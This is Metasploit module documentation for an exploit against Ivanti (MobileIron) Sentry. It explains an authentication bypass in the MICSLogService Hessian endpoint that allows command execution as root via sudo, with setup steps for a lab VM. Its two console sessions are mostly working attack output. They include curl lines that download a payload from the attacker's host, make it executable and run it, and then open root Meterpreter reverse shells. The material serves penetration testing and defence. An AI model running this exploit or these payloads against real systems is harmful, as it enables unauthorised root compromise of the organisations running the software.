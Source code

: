 ## Vulnerable Application
Ivanti Sentry (formerly Mobileiron Sentry) is vulnerable to an authentication by-pass which exposes API functionality which
allows for code execution in the context of the root user. The vulnerable endpoint `/mics/services/MICSLogService` exposes
a binary web service protocol 'Hessian' which allows remote users to invoke functions within the target. One of the functions
accessible via Hessian and the vulnerable endpoint is `uploadFileUsingFileInput` which accepts a `command` argument
that gets directly fed into a `Runtime.getRuntime().exec(cmd)` call. The command is run in the context of the `tomcat2`
user however by default `tomcat2` is able to execute commands with sudo thus we can use this to execute the payload in the context
of the `root` user.


## Verification Steps
1. Start `msfconsole`
1. Do: `use exploit/linux/http/ivanti_sentry_misc_log_service`
1. Do: `set RHOST [IP]`
1. Do: `set FETCH_SRVHOST [IP]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`


### Installation
A vulnerable instance of the software can be downloaded with the following
[link](https://mobileironsentry.blob.core.windows.net/mobileironsentrycontainer/sentry-mobileiron-9.12.0-16.vhd)
(note the .vhd file is ~34 GB). Once downloaded, import the file into your favorite hypervisor to run the software.
VMware Fusion 12 with the Sentry VM configured with a bridged network adapter worked best for testing. The .vhd file is
configured to run with 256MB of RAM and 1 CPU. When first booted the VM appears to hang with the following message displayed:
```
Probing EDD (edd=off) ...
```
By increasing the RAM to somewhere around 8GB and providing more than 1 CPU core the `Probing EDD (edd=off) ...` message
goes away after a couple of seconds and the `EULA` should appear and Sentry configuration will begin.
Inputting defaults for everything should be satisfactory.

Once finished with the configuration input `show ip route` to get the IP address of the machine. Before running the module
check to ensure the MICS service is up and running by navigating to `https://<ip-address>:8443/` in a browser. If there
is no response, try restarting the VM - this is a
[known issue](https://forums.ivanti.com/s/question/0D54O00006zkSs0SAE/unable-to-contact-mics-service?language=en_US)
that rebooting the VM can resolve.

## Options

### SLEEP
Because the execution context does not allow for command piping or chaining we need to split the multi command payload
by semi-colon and send each command individually. This delay specifies how long to wait for each command to run.

### USE_SUDO
The command is executed in the context of the `tomcat2` user. By default the `tomcat2` user has the ability to execute
commands with `sudo`. In the event Sentry is installed on an OS that doesn't have the `sudo` binary, this has been left
has a configurable option in case it needs to be disabled.

## Scenarios

### MobileIron Sentry 9.12.0-16 (Unix In Memory)
```
msf > use linux/http/ivanti_sentry_misc_log_service
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf exploit(linux/http/ivanti_sentry_misc_log_service) > set rhosts 192.168.1.87
rhosts => 192.168.1.87
msf exploit(linux/http/ivanti_sentry_misc_log_service) > set lhost 192.168.1.72
lhost => 192.168.1.72
msf exploit(linux/http/ivanti_sentry_misc_log_service) > set fetch_srvhost 192.168.1.72
fetch_srvhost => 192.168.1.72
msf exploit(linux/http/ivanti_sentry_misc_log_service) > set verbose true
verbose => true
msf exploit(linux/http/ivanti_sentry_misc_log_service) > run

[*] Command to run on remote host: curl -so /tmp/VuQctuYoROm http://192.168.1.72:8080/_acSmp3HzcREnJ2MMRBPoQ; chmod +x /tmp/VuQctuYoROm; /tmp/VuQctuYoROm &
[*] Fetch Handler listening on 192.168.1.72:8080
[*] HTTP server started
[*] Adding resource /_acSmp3HzcREnJ2MMRBPoQ
[*] Started reverse TCP handler on 192.168.1.72:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Unix (In-Memory) for cmd/linux/http/x64/meterpreter_reverse_tcp
[*] Running the command: sudo sh -c $@|sh . echo curl -so /tmp/VuQctuYoROm http://192.168.1.72:8080/_acSmp3HzcREnJ2MMRBPoQ; chmod +x /tmp/VuQctuYoROm; /tmp/VuQctuYoROm &
[*] Client 192.168.1.87 requested /_acSmp3HzcREnJ2MMRBPoQ
[*] Sending payload to 192.168.1.87 (curl/7.29.0)
[*] Meterpreter session 4 opened (192.168.1.72:4444 -> 192.168.1.87:46828) at 2023-09-12 14:51:44 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.8.2003 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
```

### MobileIron Sentry 9.12.0-19 (Linux Dropper)

```
msf exploit(linux/http/ivanti_sentry_misc_log_service) > set rhosts 192.168.1.87
rhosts => 192.168.1.87
msf exploit(linux/http/ivanti_sentry_misc_log_service) > set lhost 192.168.1.72
lhost => 192.168.1.72
msf exploit(linux/http/ivanti_sentry_misc_log_service) > set fetch_srvhost 192.168.1.72
fetch_srvhost => 192.168.1.72
msf exploit(linux/http/ivanti_sentry_misc_log_service) > set verbose true
verbose => true
msf exploit(linux/http/ivanti_sentry_misc_log_service) > run

[*] Started reverse TCP handler on 192.168.1.72:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.1.72:8080/p1EzQTA94FH
[*] Generated command stager: ["curl -so /tmp/zzEjCUHC http://192.168.1.72:8080/p1EzQTA94FH;chmod +x /tmp/zzEjCUHC;/tmp/zzEjCUHC;rm -f /tmp/zzEjCUHC"]
[*] Running the command: sudo sh -c $@|sh . echo curl -so /tmp/zzEjCUHC http://192.168.1.72:8080/p1EzQTA94FH;chmod +x /tmp/zzEjCUHC;/tmp/zzEjCUHC;rm -f /tmp/zzEjCUHC
[*] Client 192.168.1.87 (curl/7.29.0) requested /p1EzQTA94FH
[*] Sending payload to 192.168.1.87 (curl/7.29.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.1.87
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Meterpreter session 5 opened (192.168.1.72:4444 -> 192.168.1.87:46874) at 2023-09-12 15:04:40 -0400
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.8.2003 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```


